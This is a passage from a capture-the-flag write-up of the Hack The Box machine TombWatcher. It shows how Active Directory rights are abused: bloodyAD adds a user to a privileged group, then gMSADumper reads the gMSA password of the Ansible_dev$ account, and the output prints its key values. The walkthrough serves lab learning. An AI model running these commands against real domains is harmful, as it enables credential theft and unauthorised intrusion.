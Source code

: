 We can add the user `alfred` to the `INFRASTRUCTURE` group with `bloodyAD`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u alfred -p '{{REDACTED_PASSWD}}' add groupMember INFRASTRUCTURE alfred
[+] alfred added to INFRASTRUCTURE
```

Now run [Bloodhound](../../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md) again:

![Pasted image 20250922215156.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250922215156.png)

We can see `Ansible_dev$` is in the same group and has `ReadGMSAPassword` privileges on that.
## GMSADumper

We can abuse the `ReadGMSAPassword` with this tool, you can find it on [Github](../../../3%20-%20Tags/Hacking%20Concepts/Github.md): [gMSADumper](https://github.com/micahvandeusen/gMSADumper.git )

Reads any gMSA password blobs the user can access and parses the values.

Clone the repo:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/TombWatcher/user/tools]
└─$ git clone https://github.com/micahvandeusen/gMSADumper.git      
Clone in 'gMSADumper' in corso...
remote: Enumerating objects: 54, done.
remote: Counting objects: 100% (54/54), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 54 (delta 22), reused 38 (delta 14), pack-reused 0 (from 0)
Ricezione degli oggetti: 100% (54/54), 38.35 KiB | 124.00 KiB/s, fatto.
Risoluzione dei delta: 100% (22/22), fatto.

─$ chmod +x gMSADumper.py 
```

Use it:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/TombWatcher/user/tools/gMSADumper]
└─$ python gMSADumper.py -u alfred -p {{REDACTED_PASSWD}} -d tombwatcher.htb 
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$::{{REDACTED_HASH}}
ansible_dev$:aes256-cts-hmac-sha1-96:2712809c101bf9062a0fa145fa4db3002a632c2533e5a172e9ffee4343f89deb
ansible_dev$:aes128-cts-hmac-sha1-96:d7bda16ace0502b6199459137ff3c52d
```
